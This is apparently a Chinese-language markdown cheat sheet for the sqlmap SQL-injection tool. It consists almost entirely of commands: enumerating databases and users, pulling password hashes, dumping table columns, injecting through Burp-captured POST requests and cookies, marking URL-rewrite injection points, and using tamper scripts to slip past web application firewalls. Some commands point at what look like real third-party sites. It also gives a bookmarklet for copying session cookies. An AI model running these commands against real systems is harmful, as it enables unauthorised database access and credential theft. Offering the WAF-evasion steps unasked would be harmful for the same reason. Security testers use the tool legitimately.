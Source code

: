 # Sqlmap使用
### 常规用法
- `python sqlmap.py -u "地址" --dbs` 列取数据库的所有库
- `python sqlmap.py -u "地址" --users` 查询所有用户
- `python sqlmap.py -u "地址" --passwords` 查询账户和密码
- `python sqlmap.py -u "地址" --current-db` 列取当前数据库
- `python sqlmap.py -u "地址" --current-user` 查询当前用户
- `python sqlmap.py -u "地址" -D 库名 --tables` 查询库中所有表
- `python sqlmap.py -u "地址" -D 库名 -T 表名 --columns` 查询指定库指定表中所有列
- `python sqlmap.py -u "地址" -D 库名 -T 表名 -C 字段,字段,字段 --dump` 查询指定库指定表指定列名的字段
- `-D 库名 -T 表名 -C 字段,字段 -start 1 -stop 10 --dump` 导出 1 到 10 行的字段

### sqlmap post 注入

结合 burpsuite 来使用 sqlmap:
1. 浏览器打开目标地址http:// www.2cto.com /Login.as
2. 配置 burp 代理 (127.0.0.1:8080) 以拦截请求
3. 点击 login 表单的 submit 按钮
4. 这时候 Burp 会拦截到了我们的登录 POST 请求
5. 把这个 post 请求复制为 txt, 我这命名为 search-test.txt 然后把它放至 sqlmap 目录下
6. 运行 sqlmap 并使用如下命令： `python sqlmap.py -r search-test.txt -p tfUPass` 参数 -r 是让 sqlmap 加载 post 请求 rsearch-test.txt， 而 -p 指定注入用的参数。

### sqlmap cookies注入

`sqlmap.py -u “http://127.0.0.1/base.php” –cookies “id=1″ –dbs –level 2`

默认情况下SQLMAP只支持GET/POST参数的注入测试，但是当使用–level 参数且数值>=2的时候也会检查cookie时面的参数，当>=3的时候将检查User-agent和Referer，那么这就很简单了，我 们直接在原有的基础上面加上 –level 2 即可

利用sqlmap cookies注入突破用户登录继续注入 先把用户登陆的cookie拿到吧， 在收藏夹添加一个链接cookies属性： 名字自己取 javascript:alert(document.cookie)，，需要获取当前cookie的时候， 直接点一下这个链接，然后复制一下弹出对话框 里的cookie值就搞定了

`python sqlmap.py -u http://x.x.x.x/Down.aspx?tid=2 -p tid –dbms mssql –cookie=”info=username=test”`

-p是指指定参数注入

### sqlmap遇到url重写的注入

哪里存在注入就加上 * 号 `python sqlmap.py -u “http://www.cunlide.com/id1/1*/id2/2“`

### sqlmap 编码绕waf注入

- `python sqlmap.py -u http://127.0.0.1/test.php?id=1 -v 3 –dbms “MySQL” –technique U -p id –batch –tamper “space2morehash.py”`

在sqlmap 的 tamper目录下有很多space2morehash.py 编码脚本自行加载

### 相关链接
- https://www.freebuf.com/sectool/164608.html
- http://www.91ri.org/3574.html
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE5MzAwNzkwOTQsLTUyMzM1NjI2Nl19
-->